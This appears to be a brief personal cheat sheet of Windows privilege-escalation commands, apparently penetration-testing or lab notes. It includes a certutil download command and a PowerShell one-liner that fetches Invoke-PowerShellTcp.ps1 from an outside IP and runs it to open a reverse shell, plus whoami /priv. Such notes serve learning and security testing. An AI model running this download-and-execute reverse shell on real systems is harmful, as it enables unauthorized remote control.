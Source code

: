 # Windows PrivEsc

> Shahrukh Tramboo | February 12th, 2022

--------------------------------------

**Some Windows Commands**

1.	Certutil:
```bash
Certutil -urlcache -f source destination
```

2. Powershell iex:
```bash
powershell iex (New-Object Net.WebClient).DownloadString('http://10.17.39.185:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.17.39.185 -Port 4433
```

3. Priveleges:
View all the privileges using 
```bash
whoami /priv
```